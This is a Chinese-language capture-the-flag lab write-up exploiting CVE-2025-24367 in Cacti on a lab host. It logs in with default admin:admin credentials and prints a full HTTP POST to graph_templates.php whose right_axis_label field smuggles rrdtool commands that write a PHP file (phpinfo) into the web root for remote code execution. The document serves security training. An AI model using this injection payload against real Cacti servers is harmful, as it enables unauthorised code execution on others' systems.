



# CVE-2025-24367

:::info

靶标介绍：

> Cacti 是一个开源的性能和故障管理框架。经身份验证的Cacti用户可利用图表创建和图表模板功能，在应用程序的Web根目录中创建任意的PHP文件，进而导致服务器上的远程代码执行。
>
> - CVE

:::

## 入口点

```plaintext
http://b3678fa2-b3bd-445c-a8a7-4d6ec925a9c5-488.cyberstrikelab.com:83/
```

访问 `http://b3678fa2-b3bd-445c-a8a7-4d6ec925a9c5-488.cyberstrikelab.com:83/index.php` 即可进入 Cacti 登陆界面


使用默认的 `admin:admin` 凭据即可登录



参考漏洞通报信息    [Arbitrary File Creation leading to RCE · Advisory · Cacti/cacti](https://github.com/Cacti/cacti/security/advisories/GHSA-fxrq-fr7h-9rqq)

根据漏洞信息，这个漏洞需要有图表才可以渲染，所以先查看现有的图表


选择 `Local Linux Machine - Memory Usage` 进行攻击

进入图表编辑




捕捉保存修改的请求


插入攻击载荷，也就是

```plaintext
POST /graph_templates.php HTTP/1.1
Host: b3678fa2-b3bd-445c-a8a7-4d6ec925a9c5-488.cyberstrikelab.com:83
Content-Length: 846
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Origin: http://b3678fa2-b3bd-445c-a8a7-4d6ec925a9c5-488.cyberstrikelab.com:83
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://b3678fa2-b3bd-445c-a8a7-4d6ec925a9c5-488.cyberstrikelab.com:83/graph_templates.php?action=template_edit&id=227
Accept-Encoding: gzip, deflate, br
Cookie: CactiTimeZone=480; Cacti=38a8351763f693c7d9d10e41217eb9be; CactiDateTime=Wed Oct 29 2025 22:29:08 GMT+0800 (中国标准时间)
Connection: keep-alive

__csrf_magic=sid%3A29d376362c6ff549471ee248ddc5f14d4e552765%2C1761748228&name=Linux+-+Memory+Usage&graph_template_id=227&graph_template_graph_id=227&save_component_template=1&title=%7Chost_description%7C+-+Memory+Usage&vertical_label=bytes&image_format_id=3&height=200&width=700&base_value=1000&slope_mode=on&auto_scale=on&auto_scale_opts=2&auto_scale_rigid=on&upper_limit=100&lower_limit=0&unit_value=&unit_exponent_value=&unit_length=&right_axis=&right_axis_label=XXX%0Acreate+my.rrd+--step+300+DS%3Atemp%3AGAUGE%3A600%3A-273%3A5000+RRA%3AAVERAGE%3A0.5%3A1%3A1200%0Agraph+xxx2.php+-s+now+-a+CSV+DEF%3Aout%3Dmy.rrd%3Atemp%3AAVERAGE+LINE1%3Aout%3A%3C%3F%3Dphpinfo%28%29%3B%3F%3E%0A&right_axis_format=0&right_axis_formatter=0&left_axis_formatter=0&auto_padding=on&tab_width=40&legend_position=0&legend_direction=0&rrdtool_version=1.7.2&action=save
```



然后访问图表界面进行渲染


即可访问 `http://b3678fa2-b3bd-445c-a8a7-4d6ec925a9c5-488.cyberstrikelab.com:83/xxx2.php`


在环境变量中即可得到 flag


